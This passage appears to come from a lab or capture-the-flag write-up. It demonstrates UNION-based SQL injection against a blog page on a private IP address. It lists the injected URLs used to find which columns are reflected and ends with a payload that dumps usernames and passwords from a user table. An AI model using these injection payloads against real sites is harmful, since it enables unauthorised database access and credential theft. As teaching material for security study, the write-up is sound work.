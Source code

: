 2. Next step would be to determine the columns that have data type as `VARCHAR`, so that we can use those columns to exfiltrate data.

   ```
   http://192.168.0.123/index.html?page=blog&title=Blog&id=1%20union%20select%20null,%20null,%20null,%20null,%20null--	--> no error
   http://192.168.0.123/index.html?page=blog&title=Blog&id=1%20union%20select%20%27a%27%20null,%20null,%20null,%20null--	--> returns error
   http://192.168.0.123/index.html?page=blog&title=Blog&id=1%20union%20select%20null,%20%27a%27,%20null,%20null,%20null--	--> 'a' reflected in output
   http://192.168.0.123/index.html?page=blog&title=Blog&id=1%20union%20select%20null,%20null,%20%27a%27,%20null,%20null--	--> no error but 'a' no reflected in output
   http://192.168.0.123/index.html?page=blog&title=Blog&id=1%20union%20select%20null,%20null,%20null,%20%27a%27,%20null--	--> 'a' reflected in output
   http://192.168.0.123/index.html?page=blog&title=Blog&id=1%20union%20select%20null,%20null,%20null,%20null,%20%27a%27--	--> 'a' reflected in output
   
   ```

   From the above requests, it is clear that column numbers 2, 4 and 5 can be used for accessing the data in the database.

Using this information with that of obtained from `db.sql` we can try to access the content of the `user` table

```
http://192.168.0.123/index.html?page=blog&title=Blog&id=null%20union%20select%201,%20user_name,%20user_pass,%204,%205%20from%20user--
```

![user_dump](./.images/user_dump.png)
